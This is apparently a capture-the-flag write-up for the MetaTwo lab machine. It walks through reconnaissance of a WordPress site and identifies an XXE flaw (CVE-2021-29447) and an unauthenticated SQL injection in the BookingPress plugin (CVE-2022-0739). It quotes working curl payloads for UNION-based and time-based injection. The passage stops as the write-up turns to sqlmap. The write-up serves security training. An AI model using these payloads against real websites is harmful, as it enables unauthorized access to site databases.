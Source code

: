 `nmap`: port 80 - HTTP with a redirect to [http://metapress.htb/](http://metapress.htb/), resolve it in /etc/hosts.

```
10.10.11.186  metapress.htb
```

### HTTP <a href="#http" id="http"></a>

The web server is a Wordpress server with version 5.6.2, which is vulnerable to CVE-2021-29447, so we need to have access\* to an account with permissions to upload files.

> CVE-2021-29447: a user with the ability to upload files (such as an author) can take advantage of the XML parsing problem in the multimedia library, leading to XXE attacks. This requires installation of WordPress using PHP 8. Access to internal files is possible if an XXE attack succeeds.\*

![Desktop View](https://3nnl.github.io/metatwo/static\_1.avif)

Also, in the source code of the Events page we can find that it uses bookingpress plugin version 1.0.10, which is vulnerable to CVE-2022-0739. Let’s figure out how it works.

![Desktop View](https://3nnl.github.io/metatwo/static\_2.avif)

### CVE-2022-0739 <a href="#cve-2022-0739" id="cve-2022-0739"></a>

[https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

To exploit the vulnerability we don’t need to have any user’s rights and we only need to have data about the \_wpnonce variable, which can be found in the sources of the page after triggering event via BookingPress module:

> #### PoC <a href="#poc" id="poc"></a>
>
> * Create a new “category” and associate it with a new “service” via the BookingPress admin menu (/wp-admin/admin.php?page=bookingpress\_services)
> * Create a new page with the “\[bookingpress\_form]” shortcode embedded (the “BookingPress Step-by-step Wizard Form”)
> * Visit the just created page as an unauthenticated user and extract the “nonce” (view source -> search for .“action:‘bookingpress\_front\_get\_category\_services’”)
> * Invoke the following curl command: `curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'`
> * Time based payload: `curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&> category_id=1&total_service=1) AND (SELECT 9578 FROM (SELECT(SLEEP(5)))iyUp)-- ZmjH'`

<pre class="language-bash"><code class="lang-bash"><strong>curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&#x26;_wpnonce=8cc8b79544&#x26;category_id=33&#x26;total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
</strong></code></pre>

Once we get \_wpnonce, we execute the command and intercept the request with a burp to feed it all into sqlmap:
